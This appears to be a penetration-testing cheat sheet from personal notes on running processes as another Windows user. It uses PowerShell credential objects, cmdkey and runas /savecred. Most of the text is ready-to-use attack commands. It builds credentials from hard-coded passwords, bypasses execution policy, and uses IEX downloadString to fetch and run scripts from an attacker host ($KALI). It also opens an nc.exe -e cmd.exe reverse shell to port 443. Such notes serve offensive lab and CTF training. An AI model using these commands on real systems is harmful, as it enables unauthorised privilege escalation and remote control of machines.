 ####  RunAs via PowerShell (Requires creds)
**Method1**
Attempting to re-use a found password with the Administrator account can be achieved using PowerShell:


```Powershell - target
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

will store the credentials in `$creds` for the session. 

A reverse shell can now be opened with the supplied credentials using the command:

[[Python#Server]]

[[1._rlwrap]]

```powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://$KALI/Shelly.ps1')" -Credential $creds
```

**Method2**

Say we already have Alice's password, we can execute cmd as her.


[[1._rlwrap]]

```powershell - target
echo $username = 'alice' > startprocess.ps1
```

```powershell - target
echo $password = 'aliceishere' >> startprocess.ps1
```

```powershell - target
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
```

```powershell - target
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
```

Transfer over nc.exe
```bash - kali
cp /usr/share/windows-resources/binaries/nc.exe .
```

[[Python#Server]]

[[4._File Transfers]]

```
echo $KALI
```

==REPLACE $KALI WITH YOUR IP!==
```batch - target
echo Start-Process 'C:\Users\Bethany\AppData\Local\Temp\nc.exe' -ArgumentList '-e C:\Windows\System32\cmd.exe $KALI 443' -Credential $credential >> startprocess.ps1
```

```batch - target
powershell.exe Get-ExecutionPolicy -Scope CurrentUser
```

```batch - target
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```batch - target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```


#### RunAs via cmdkey
```batch - windows
cmdkey /list
```


![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[Python#Server]]

![[1._rlwrap]]

```batch - target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://$KALI/Invoke-PowerShellTcp.ps1')"
```

==ff1f3b48913b213a31ff6756d2553d38==

==6e1586cc7ab230a8d297e8f933d904cf==

